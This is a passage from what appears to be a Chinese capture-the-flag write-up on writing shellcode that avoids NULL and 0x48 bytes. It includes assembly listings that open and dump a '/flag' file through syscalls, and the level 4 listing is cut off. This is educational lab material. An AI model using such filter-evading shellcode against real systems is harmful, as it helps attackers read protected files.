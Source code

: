 level 3和level 4是同类型的, level 3要求编译好的shellcode里不能包含`NULL(0x00)`byte, level 4是要求不能包含 `H(0x48)`byte.
shellcode中包含0x00 byte大部分情况是因为操作数中含有至少1byte的0, 比如`mov rax, 0x123`, 编译后0x123会被填充成`0x00,00,00,00,00,00,01,23`. 如果要去除shellcode中的0x00, 可以对shellcode进行修改, 转换成等价的其他语句. 比如
```
mov rax, 0 -> xor rax, rax
mov rax, 0x10 -> mov al, 0x10
mov rax, 1 -> inc rax
...
```
level 4的要求是不能包含`H(0x48)`byte, shellcode中出现H byte是因为x86_64为了兼容x86汇编添加的一个标识位, x86的shellcode一样可以在x86_64下运行, 所以只需要将shellcode中的64位寄存器换成32位寄存器就可以通过level 4了.
level 3 code:
```
.global _start
_start:
.intel_syntax noprefix
        xor rax, rax
        mov al, 0x67
        shl rax, 0x08
        mov al, 0x61
        shl rax, 0x08
        mov al, 0x6c
        shl rax, 0x08
        mov al, 0x66
        shl rax, 0x08
        mov al, 0x2f
        mov [rdi], rax
        xor rsi, rsi
        xor rdx, rdx
        xor rax, rax
        inc rax
        inc rax
        syscall

        xor rdi,rdi
        inc rdi
        mov rsi, rax
        xor rax, rax
        mov al, 40
        xor rdx, rdx
        xor r10, r10
        inc r10
        shl r10, 16
        syscall

        xor rax, rax
        mov al, 60
        xor rdi, rdi
        syscall
```
level 4 code:
```
.global _start
_start:
.intel_syntax noprefix
        lea eax, [eip + m]
        mov edi, eax
        mov esi, 0
        mov edx, 0
        mov eax, 2
        syscall

        mov edi, 1
        mov esi, eax
        mov eax, 40
```